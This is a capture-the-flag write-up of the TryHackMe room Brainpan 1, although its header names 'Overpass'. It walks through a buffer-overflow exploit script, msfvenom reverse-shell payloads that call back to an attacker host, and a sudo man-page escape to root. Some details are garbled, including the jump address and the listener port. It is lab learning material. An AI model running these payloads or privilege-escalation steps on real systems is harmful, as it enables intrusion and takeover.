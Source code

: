 ```yaml
---
title: Brainpan1-writeup-THM
date: 2024-01-04
categories: [room, hard]
tags: [windows, privesc, bufferoverflow]    # TAG names should always be lowercase
image: https://raw.githubusercontent.com/Blueaulo/Brainpan1-writeup-THM/main/754f5e1d-ea90-41d9-9bdf-c35333bf9929_Export-364cf768-db35-42c3-9c8f-01faddec3169/Brainpan%201%20ad62754b337f4b43b8bb42d82d0a7e29/Untitled.png
---
```

## My writeup of the TryHackMe room "<a href="https://tryhackme.com/room/overpass">Overpass</a>"

I am going to start with a nmap scan:

```bash
nmap 10.10.143.30                      

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-03 12:34 EST
Nmap scan report for 10.10.143.30
Host is up (0.058s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT      STATE SERVICE
9999/tcp  open  abyss
10000/tcp open  snet-sensor-mgmt

Nmap done: 1 IP address (1 host up) scanned in 7.40 seconds
```

```bash
9999/tcp  open  abyss?
10000/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.3)
```

Port 9999 contains the program:

```bash
nc 10.10.143.30 9999
_|                            _|                                        
_|_|_|    _|  _|_|    _|_|_|      _|_|_|    _|_|_|      _|_|_|  _|_|_|  
_|    _|  _|_|      _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|    _|  _|        _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|_|_|    _|          _|_|_|  _|  _|    _|  _|_|_|      _|_|_|  _|    _|
                                            _|                          
                                            _|

[________________________ WELCOME TO BRAINPAN _________________________]
                          ENTER THE PASSWORD
```

And 10000 contains a http server:

![Untitled](https://raw.githubusercontent.com/Blueaulo/Brainpan1-writeup-THM/main/754f5e1d-ea90-41d9-9bdf-c35333bf9929_Export-364cf768-db35-42c3-9c8f-01faddec3169/Brainpan%201%20ad62754b337f4b43b8bb42d82d0a7e29/Untitled.png)

The site doesn’t tell us much, but I used ffuf for enumerating the subdirectories:

```bash
ffuf -u http://10.10.143.30:10000/FUZZ -w /usr/share/wordlists/dirb/big.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.143.30:10000/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

bin                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 65ms]
```

He found the bin directory, which contains the exe!

I moved the exe in my windows machine with Immunity Debugger and mona installed.

And I started the server:

![Untitled](https://raw.githubusercontent.com/Blueaulo/Brainpan1-writeup-THM/main/754f5e1d-ea90-41d9-9bdf-c35333bf9929_Export-364cf768-db35-42c3-9c8f-01faddec3169/Brainpan%201%20ad62754b337f4b43b8bb42d82d0a7e29/Untitled%201.png)

I will use this code for getting a reverse shell:

```bash
import socket

ip = "10.10.6.37"
port = 9999

offset = 0
overflow = "A" * offset
retn = ""
padding = "\x90" * 16
payload = ""
postfix = ""

buffer =  overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

With 600 bytes the server crushes.

So I am going to use metasploit to create a payload:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000
```

And I got the offset using mona: 

```bash
!mona findmsp -distance 5000
```

![Untitled](https://raw.githubusercontent.com/Blueaulo/Brainpan1-writeup-THM/main/754f5e1d-ea90-41d9-9bdf-c35333bf9929_Export-364cf768-db35-42c3-9c8f-01faddec3169/Brainpan%201%20ad62754b337f4b43b8bb42d82d0a7e29/Untitled%202.png)

Now I can put the offset in the offset variable inside the script.

I am going to start searching for the bad characters:

Using a payload with all the characters and compare it with mona we get this:

![Untitled](https://raw.githubusercontent.com/Blueaulo/Brainpan1-writeup-THM/main/754f5e1d-ea90-41d9-9bdf-c35333bf9929_Export-364cf768-db35-42c3-9c8f-01faddec3169/Brainpan%201%20ad62754b337f4b43b8bb42d82d0a7e29/Untitled%203.png)

After that we search for the jmp:

![Untitled](https://raw.githubusercontent.com/Blueaulo/Brainpan1-writeup-THM/main/754f5e1d-ea90-41d9-9bdf-c35333bf9929_Export-364cf768-db35-42c3-9c8f-01faddec3169/Brainpan%201%20ad62754b337f4b43b8bb42d82d0a7e29/Untitled%204.png)

We need to put this in the retn variable of the script: \zf3\x12\x17\x31 (It is reversed because of the little eldiana rchitecture, which x86 CPUs have.)

Then we generate our payload:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.18.20.116 LPORT=4444 EXITFUNC=thread -b "\x00\x01\x02\x03\x04\x06\x07" -f c
```

And put it in the code.

And now if we run the code we should have a shell:

```bash
nc -lvnp 4444                                                                                     
listening on [any] 4444 ...
connect to [10.18.20.116] from (UNKNOWN) [10.10.6.37] 49292
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\admin\Desktop>
```

Now I am just going to change the ip of the script and put the one of the machine, and we should have a shell in the remote server: 

- note, i have used another msfvenom payload for this one:

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.18.20.116 LPORT=4444 EXITFUNC=thread -b "\x00\x01\x02\x03\x04\x06\x07" -f c
```

```bash
nc -lvnp 4555
listening on [any] 4555 ...
connect to [10.18.20.116] from (UNKNOWN) [10.10.143.30] 41139
ls
checksrv.sh
web
python -c 'import pty;pty.spawn("/bin/bash")' 
puck@brainpan:/home/puck$ sudo -l
sudo -l
Matching Defaults entries for puck on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User puck may run the following commands on this host:
    (root) NOPASSWD: /home/anansi/bin/anansi_util
puck@brainpan:/home/puck$
```

Nice!

We can see that we can run anansi_util with root

```bash
sudo /home/anansi/bin/anansi_util
Usage: /home/anansi/bin/anansi_util [action]
Where [action] is one of:
  - network
  - proclist
  - manual [command]
```

The interessing thing is the manual command, which is the man command.

```bash
sudo /home/anansi/bin/anansi_util manual /bin/sh
/usr/bin/man: manual-/bin/sh: No such file or directory
/usr/bin/man: manual_/bin/sh: No such file or directory
No manual entry for manual
WARNING: terminal is not fully functional
-  (press RETURN) 
DASH(1)                   BSD General Commands Manual                  DASH(1)

NAME
     dash — command interpreter (shell)

SYNOPSIS
     dash [-aCefnuvxIimqVEb] [+aCefnuvxIimqVEb] [-o option_name]
          [+o option_name] [command_file [argument ...]]
     dash -c [-aCefnuvxIimqVEb] [+aCefnuvxIimqVEb] [-o option_name]
          [+o option_name] command_string [command_name [argument ...]]
     dash -s [-aCefnuvxIimqVEb] [+aCefnuvxIimqVEb] [-o option_name]
          [+o option_name] [argument ...]

DESCRIPTION
     dash is the standard command interpreter for the system.  The current
     version of dash is in the process of being changed to conform with the
     POSIX 1003.2 and 1003.2a specifications for the shell.  This version has
     many features which make it appear similar in some respects to the Korn
     shell, but it is not a Korn shell clone (see ksh(1)).  Only features des‐
     ignated by POSIX, plus a few Berkeley extensions, are being incorporated
     into this shell.  This man page is not intended to be a tutorial or a
     complete specification of the shell.

 Manual page sh(1) line 1 (press h for help or q to quit)!/bin/sh
!/bin/sh
# whoami
whoami
root
```

And just like that we got a root shell!